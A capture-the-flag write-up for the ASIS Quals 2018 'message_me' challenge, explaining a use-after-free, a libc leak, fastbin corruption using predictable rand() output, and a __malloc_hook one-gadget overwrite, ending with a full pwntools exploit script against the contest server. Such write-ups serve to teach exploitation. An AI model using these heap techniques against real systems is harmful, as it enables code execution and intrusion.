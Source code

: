 ```yaml
---
title:  Asis Quals 2018 Message
updated: 2018-05-01 14:24:55
---
```


- [message_me](#orga6a7613)


<a id="orga6a7613"></a>

# message_me

    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

The program provide the following options

       Message System
    ---------------------
    0 : Add a message
    1 : Remove the message
    2 : Show the message
    3 : Change the timestamp
    ---------------------
    choice :

There is a table in bss which follows this structure

    struct entry
    {
    int timestamp;
    char message[size];
    }

we can create new message entry with the add message option . The change timestamp option adds a random number between 0-9 to the timestamp . The show message option displays the time as a string and displays the message .

There is a UAF on the free option which does not null out the entry even if it is freed . We can do fastbin corruption and allocate a fastbin chunk near __malloc_hook_ and overwrite it with one gadget . But We do not control first 8 bytes of the structure , it will contain the time .

Another thing is that the time is printed with ctime and it uses heap internally so calling the show option will mess up our heap ,

On to the libc leak , creating a chunk will place the a heap pointer on to the table and we will delete it . because of the uaf bug it will be there in the table and the ctime in view option manipulates the heap ( I don't really now what happens inside that function ) and the end result is that we get a libc address of main arena in message section of the object which will be printed out . We have our libc leak .

Next is we have to get the address of __malloc_hook_-0x23 on to the fastbinY array to allocate a chunk on the libc .

The trick is to create a fake chunk ( who's fd points to the libc ) on a the heap and use the change time stamp option to manipulate the fd of the freed fastbin chunk to point to that location . since the seed of the random number generator is fixed we can predict the number generated on every iteration .

```C
#include <stdio.h>
#include <stdlib.h>

int main()
{
  srand(1);
  for ( int i = 0 ; i <= 9 ; i++)
    printf("%d\n",rand()%10);

  return 0;
}
```

    3
    6
    7
    5
    3
    5
    6
    2
    9
    1

These same number will be generated on every execution .

We will create two chunk , which the first containing the fake chunk .

```python
payload = p64([                                                                                                                               
    0x0,                                                                                                                                      
    0x0,                                                                                                                                      
    0x71,                                                                                                                                     
    fake_chunk,                                                                                                                               
    0x0,])                                                                                                                                    
create(0x60,payload)                                                                                                                          
create(0x60,"")                                                                                                                               
delete(1)                                                                                                                                     
delete(2)    
```

     +-------------------+
     |       0x71        | -------------> [1]
     +-------------------+			  
     |        fd         | ---> null
     +-------------------+			  
     |                   |			  
     |                   |			  
     |+-----------------+|			  
     ||       0x71      || --------------> [fake_chunk]
     |+-----------------+|	
     ||__malloc_hook-0x23|		       	  
     |+-----------------+|		       	  
     ||                 ||		       	  
     ||                 ||		       	  
     |+-----------------+|		       	  
     +-------------------+		       	  
     |        0x71       | ---------------> [2]
     +-------------------+	
     |        fd         | ----> points to [1]
     +-------------------+	
     |                   |	
     |                   |	
     |                   |	
     |                   |	
     +-------------------+	
    
    fastbinY : [2] -> [1] 

calling change on 2 will add the random number to the fd which points to [1] , we can increment this number to point to out fake chunk

```python
change(2)
change(2)
change(2)
change(2)
change(1)
change(2)
change(2)
```

    fastbinY : [2]  -> [fake_chunk] -> [__malloc_hook-0x23]

We will create two new object and the third will give return a pointer on libc and we can give one gadget to the __malloc_hook . Then just trigger the hook .

```python
from pwn import *
from datetime import datetime

def p64(hex):
    from struct import pack
    return pack('<' + 'Q' * len(hex), *hex)
context.arch = 'amd64'
context.bits = 64
if True:
    context.log_level = "debug"
    io = remote ("159.65.125.233", 6003)
else:
    context.log_level = "debug"
    context.terminal = ['tmux', 'splitw', '-h']
    env = {'LD_PRELOAD' : './libc.so.6'}
    io = process('./message_me' ,env=env)
    gdb.attach(io,'''

    ''')

def create(size,msg):
        io.recvuntil("choice : ")
        io.sendline(str(0))
        io.recvuntil("Give me the message size : ")
        io.sendline(str(size))
        io.recvuntil("Give me your meesage : ")
        io.sendline(str(msg))

def view(idx):
        io.recvuntil("choice : ")
        io.sendline(str(2))
        io.recvuntil("Give me index of the message : ")
        io.sendline(str(idx))

def delete(idx):
        io.recvuntil("choice : ")
        io.sendline(str(1))
        io.recvuntil("Give me index of the message : ")
        io.sendline(str(idx))

def change(idx):
        io.recvuntil("choice : ")
        io.sendline(str(3))
        io.recvuntil("Give me index of the message : ")
        io.sendline(str(idx))
def leak():
    io.recvuntil("Message : ")
    return u64(io.recv(6) + "\x00\x00")


create(0x20,"A")
delete(0)
view(0)


libc_leak = leak()
libc = libc_leak - 0x3c4b78
fake_chunk = libc + 0x3c4aed
magic = libc + 0xf02a4
log.info("Libc Leak :" +hex(libc))

create(0x20,"A")
delete(1)

payload = p64([
    0x0,
    0x0,
    0x71,
    fake_chunk,
    0x0,])


create(0x60,payload)
create(0x60,"")

delete(2)
delete(3)

change(3)
change(3)
change(3)
change(3)
change(2)
change(3)
change(3)

create(0x60,"")
create(0x60,"")

payload = "\x00" * 0x3
payload += p64([
    0x0,
    magic
])
create(0x60,payload)

delete(1)
io.interactive()
```
